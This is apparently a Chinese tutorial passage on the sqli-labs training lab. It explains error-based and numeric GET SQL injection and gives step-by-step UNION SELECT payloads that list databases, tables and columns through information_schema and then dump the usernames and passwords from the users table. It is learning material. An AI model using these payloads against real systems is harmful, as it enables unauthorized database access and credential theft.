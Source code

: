 ## 原理

当$id传参为一字符串时，没有对单引号进行过滤，原先的语句是

`select ... from ... where id='$id'`

加1单引号一起传进去之后就会出现有一个单引号没有闭合的现象从而导致报错，利用这个报错找到注入点进行注入并在末尾添加注释符将多余的sql语句进行注释以达到不报错且运行想要的语句的目的

***

# less 2(get基于报错的数字型注入)
***

## 原理

通过查看其php源代码文档我们知晓该get方式直接获取一个`$id`变量`并进行使用，没有任何过滤，所以存在一个数字型注入点

[![0jMmid.jpg](https://s1.ax1x.com/2020/10/18/0jMmid.jpg)](https://imgchr.com/i/0jMmid)
## 步骤

1.首先要判断其注入点，用`select 1，2，3...`发现到三能够正常显示，且根据屏幕回显内容判断出显示位，可以进行下一步的payload

[![0jQAlq.jpg](https://s1.ax1x.com/2020/10/18/0jQAlq.jpg)](https://imgchr.com/i/0jQAlq)

2.然后查询含有的数据库名称，可以用database()，也可以直接从schemata里面查

`?id=0 union select 1,2,group_concat(schema_name) from information_schema.schemata --+`

[![0jQVXV.jpg](https://s1.ax1x.com/2020/10/18/0jQVXV.jpg)](https://imgchr.com/i/0jQVXV)

了解到当前处于security库

3.对security库的表进行查询

`?id=0 union select 1,2,group_concat(table_name) from information_schema.columns where table_schema='security' --+`

[![0jQemT.jpg](https://s1.ax1x.com/2020/10/18/0jQemT.jpg)](https://imgchr.com/i/0jQemT)

通过其内容可以猜到我们想要的内容应该在users表中，所以接下来就是对users表进行爆字段


4.`?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+`

[![0jQE60.jpg](https://s1.ax1x.com/2020/10/18/0jQE60.jpg)](https://imgchr.com/i/0jQE60)


可以看到其中有username与password两项，我们随即对其进行输出操作

5.由于我们当前就处于security库中，所以不必再从information_schema库中查找数据，直接

`?id=0 union select 1,2,group_concat('|',username,'~',password) from users--+`

从users表中输出数据

[![0jQkpn.jpg](https://s1.ax1x.com/2020/10/18/0jQkpn.jpg)](https://imgchr.com/i/0jQkpn)
